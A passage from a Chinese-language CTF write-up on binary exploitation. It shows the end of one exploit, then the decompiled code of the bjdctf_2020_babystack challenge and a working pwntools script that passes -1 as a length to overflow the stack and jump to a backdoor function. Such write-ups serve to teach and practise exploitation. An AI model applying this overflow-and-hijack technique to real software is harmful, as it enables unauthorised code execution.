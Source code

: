 ```python
p.sendlineafter('encrypted\n',payload)#第二次溢出：栈溢出的输入点是在【Input your Plaintext to be encrypted】之后

p.interactive()

```

## 整形溢出

### bjdctf_2020_babystack

ida查看main函数：

```python
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);#这个输入规定了我们下次read读入的长度，所以要进行整数溢出，让他变得很大，方便下面的read进行溢出
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);#nbytes是无符号类型，如果输入一个负数，会让它变得很大
  return 0;
}
```



```python
from pwn import *
from LibcSearcher import *
p = process('./sw')
#gdb.attach(p) #open gdb
context(os="linux",arch="amd64",log_level='debug')
elf = ELF('./sw')
#p = remote('node6.anna.nssctf.cn',28969)

backdoor = 0x4006ea
payload = b'a'*24 + p64(backdoor)
p.sendlineafter(b'your name:','-1')#对于无符号数nbytes，负数会让他变得很大
p.recv()

p.send(payload)
p.interactive()

```





